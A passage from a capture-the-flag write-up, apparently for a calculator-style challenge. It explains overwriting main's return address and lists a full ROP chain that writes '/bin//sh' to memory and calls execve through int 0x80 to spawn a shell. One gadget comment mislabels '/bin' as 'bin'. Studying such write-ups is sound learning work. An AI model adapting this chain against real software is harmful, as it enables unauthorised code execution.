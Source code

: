 Our input must be `1` lower than this, making it `0x171` or `369`.

Now operand_1 will be the return address held in the main function's stack area and operand_2 is to be crafted to point the `result` value to address of executable areas in the program containing ROP gadgets. ROP gadgets are specific areas of the executable part of a program which can be used to execute custom instructions

For example, if operand_1 is `0x0804967a` and operand_2 is `0x‭26B30‬ (158512)`, the result is `0x80701aa`‬ and instructions at this address are `pop edx; ret`. When this result overwrites the return address of `main`, it causes random code execution.

It can be observed that following `pop edx` there is `ret`, which essentially causes the next value on the stack to be loaded into the program counter.
The writeup gives the list instructions and their addresses in the executable section of the memory that leads to the creation of a shell process which we can use to read the flag.

```
ADDRESS	   # INSTRUCTION
0x080701aa # pop edx ; ret
0x080ec060 # @ .data
0x0805c34b # pop eax ; ret
0x6e69622f # 'bin'
0x0809b30d # mov dword ptr [edx], eax ; ret
0x080701aa # pop edx ; ret
0x080ec064 # @ .data + 4
0x0805c34b # pop eax ; ret
0x68732f2f # '//sh'
0x0809b30d # mov dword ptr [edx], eax ; ret
0x080701aa # pop edx ; ret
0x080ec068 # @ .data + 8
0x080550d0 # xor eax, eax ; ret
0x0809b30d # mov dword ptr [edx], eax ; ret
0x080481d1 # pop ebx ; ret
0x080ec060 # @ .data
0x080701d1 # pop ecx ; pop ebx ; ret
0x080ec068 # @ .data + 8
0x080ec060 # padding without overwrite ebx
0x080701aa # pop edx ; ret
0x080ec068 # @ .data + 8
0x080550d0 # xor eax, eax ; ret
0x0807cb7f # inc eax ; ret
0x0807cb7f # inc eax ; ret
0x0807cb7f # inc eax ; ret
0x0807cb7f # inc eax ; ret
0x0807cb7f # inc eax ; ret
0x0807cb7f # inc eax ; ret
0x0807cb7f # inc eax ; ret
0x0807cb7f # inc eax ; ret
0x0807cb7f # inc eax ; ret
0x0807cb7f # inc eax ; ret
0x0807cb7f # inc eax ; ret
0x08049a21 # int 0x80
```
